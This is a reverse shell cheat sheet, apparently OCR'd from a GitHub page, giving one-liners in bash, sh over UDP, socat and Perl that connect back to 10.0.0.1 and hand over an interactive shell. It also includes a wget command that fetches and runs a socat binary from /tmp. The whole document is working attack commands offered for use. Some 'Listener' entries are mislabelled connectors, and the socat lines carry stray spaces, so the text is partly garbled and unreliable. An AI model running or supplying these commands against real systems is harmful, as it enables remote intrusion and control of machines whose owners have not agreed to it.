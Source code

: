 # Reverse Shell [Cheat Sheet]

## Bourne-Again Shell
### Transmission Control Protocol | Remote Host
```
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
```
### Listener
```
/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
```

### User Datagram Protocol | Remote Host

```
sh -i >& /dev/udp/10.0.0.1/4242 0>&1
```

## Socat
### Socat | Install
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```
### Remote Host
```
/tmp/socat exec:'bash -li', pty, stderr, setsid, sigint, sane tcp:10.0.0.1:4242
```
### Listener
```
socat file:`tty`, raw, echo=0 TCP-L:4242
```

## Perl
### Remote Host
```
perl -e 'use Socket; $IP="10.0.0.1"; $PORT=1234; socket(S, PF_INET, SOCK_STREAM, getprotobyname("tcp")); if(connect(S, sockaddr_in($PORT, inet_aton($IP)))){open(STDIN, ">&S"); open(STDOUT, ">&S"); open(STDERR, ">&S"); exec("/bin/sh -i");};'
```
### Listener
```
perl -MIO -e '$PORT=fork; exit, if($PORT);$c=new IO::Socket::INET(PeerAddr, "10.0.0.1:1234"); STDIN->fdopen($c, r); $~->fdopen($c, w); system$_ while<>;'

For Windows:
perl -MIO -e '$C=new IO::Socket::INET(PeerAddr, "10.0.0.1:4242"); STDIN->fdopen($C, r); $~->fdopen($C, w); system$_ while<>;'
```
